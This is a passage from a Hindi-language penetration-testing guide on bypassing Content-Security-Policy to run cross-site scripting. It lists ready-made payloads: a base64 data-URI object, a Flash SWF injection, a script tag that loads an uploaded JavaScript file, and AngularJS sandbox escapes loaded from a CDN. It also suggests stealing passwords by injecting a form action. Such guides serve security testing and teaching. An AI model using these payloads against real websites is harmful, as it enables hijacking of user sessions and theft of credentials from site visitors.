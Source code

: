 {% hint style="danger" %}
**ऐसा लगता है कि यह अब काम नहीं कर रहा है**
{% endhint %}
```yaml
Content-Security-Policy: script-src 'self' ;
```
काम करने वाले पेलोड:
```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```
### फ़ाइल अपलोड + 'self'
```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ;
```
यदि आप एक JS फ़ाइल अपलोड कर सकते हैं तो आप इस CSP को बायपास कर सकते हैं:

कार्यशील पेलोड:
```markup
"/>'><script src="/uploads/picture.png.js"></script>
```
हालांकि, यह अत्यधिक संभावित है कि सर्वर **अपलोड की गई फ़ाइल को मान्य कर रहा है** और केवल आपको **निर्धारित प्रकार की फ़ाइलें अपलोड करने की अनुमति देगा**।

इसके अलावा, भले ही आप सर्वर द्वारा स्वीकार की गई एक्सटेंशन (जैसे: _script.png_) का उपयोग करके एक **JS कोड फ़ाइल के अंदर** अपलोड कर सकें, यह पर्याप्त नहीं होगा क्योंकि कुछ सर्वर जैसे अपाचे सर्वर **फाइल के एक्सटेंशन के आधार पर MIME प्रकार का चयन करते हैं** और ब्राउज़र जैसे Chrome **Javascript** कोड को कुछ ऐसा करने से **अस्वीकृत कर देंगे जो एक छवि होनी चाहिए**। "उम्मीद है", वहाँ गलतियाँ हैं। उदाहरण के लिए, एक CTF से मैंने सीखा कि **Apache को _**.wave**_ एक्सटेंशन का पता नहीं है, इसलिए यह इसे **MIME प्रकार जैसे audio/\*** के साथ सर्व नहीं करता है।

यहां से, यदि आप एक XSS और एक फ़ाइल अपलोड पाते हैं, और आप एक **गलत व्याख्यायित एक्सटेंशन** खोजने में सफल होते हैं, तो आप उस एक्सटेंशन के साथ एक फ़ाइल अपलोड करने और स्क्रिप्ट की सामग्री को आज़मा सकते हैं। या, यदि सर्वर अपलोड की गई फ़ाइल के सही प्रारूप की जांच कर रहा है, तो एक पॉलीग्लॉट बनाएं ([यहां कुछ पॉलीग्लॉट उदाहरण](https://github.com/Polydet/polyglot-database))।

### Form-action

यदि JS इंजेक्ट करना संभव नहीं है, तो आप उदाहरण के लिए क्रेडेंशियल्स को **फॉर्म एक्शन को इंजेक्ट करके** निकालने की कोशिश कर सकते हैं (और शायद पासवर्ड प्रबंधकों से पासवर्ड को ऑटो-फिल करने की उम्मीद कर सकते हैं)। आप [**इस रिपोर्ट में एक उदाहरण पा सकते हैं**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)। इसके अलावा, ध्यान दें कि `default-src` फॉर्म क्रियाओं को कवर नहीं करता है।

### Third Party Endpoints + ('unsafe-eval')

{% hint style="warning" %}
कुछ निम्नलिखित पेलोड के लिए **`unsafe-eval` की आवश्यकता नहीं है**।
{% endhint %}
```yaml
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval';
```
एक कमजोर संस्करण का एंगुलर लोड करें और मनमाना JS निष्पादित करें:
```xml
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>

```